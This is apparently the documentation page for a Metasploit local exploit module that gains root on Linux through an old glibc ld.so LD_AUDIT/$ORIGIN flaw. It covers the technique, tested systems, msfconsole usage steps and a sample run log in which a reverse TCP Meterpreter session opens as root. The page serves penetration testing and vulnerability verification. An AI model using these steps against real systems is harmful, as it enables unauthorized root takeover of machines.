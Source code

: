 ## Description

  This module attempts to gain root privileges on Linux systems by abusing
  a vulnerability in the GNU C Library (glibc) dynamic linker.


## Vulnerable Application

  glibc `ld.so` versions before 2.11.3, and 2.12.x before 2.12.2 does not
  properly restrict use of the `LD_AUDIT` environment variable when loading
  setuid executables which allows control over the `$ORIGIN` library search
  path resulting in execution of arbitrary shared objects.

  This module opens a file descriptor to the specified suid executable via
  a hard link, then replaces the hard link with a shared object before
  instructing the linker to execute the file descriptor, resulting in
  arbitrary code execution.

  The specified setuid binary must be readable and located on the same
  file system partition as the specified writable directory.

  This module has been tested successfully on:

  * glibc 2.5 on CentOS 5.4 (x86_64)
  * glibc 2.5 on CentOS 5.5 (x86_64)
  * glibc 2.12 on Fedora 13 (i386)
  * glibc 2.5-49 on RHEL 5.5 (x86_64)

  Some versions of `ld.so`, such as the version shipped with Ubuntu 14,
  hit a failed assertion in `dl_open_worker` causing exploitation to fail.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/glibc_origin_expansion_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/glibc_origin_expansion_priv_esc 
  msf exploit(linux/local/glibc_origin_expansion_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/glibc_origin_expansion_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [+] The target appears to be vulnerable
  [*] Using target: Linux x86
  [*] Writing '/tmp/.R5Ork' (1279 bytes) ...
  [*] Writing '/tmp/.yE35DWbLd' (320 bytes) ...
  [*] Writing '/tmp/.sk7Z3Vl7vJ' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (857352 bytes) to 172.16.191.138
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.138:59187) at 2018-01-27 04:21:24 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : fedora13.localdomain
  OS           : Fedora 13 (Linux 2.6.33.3-85.fc13.i686.PAE)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

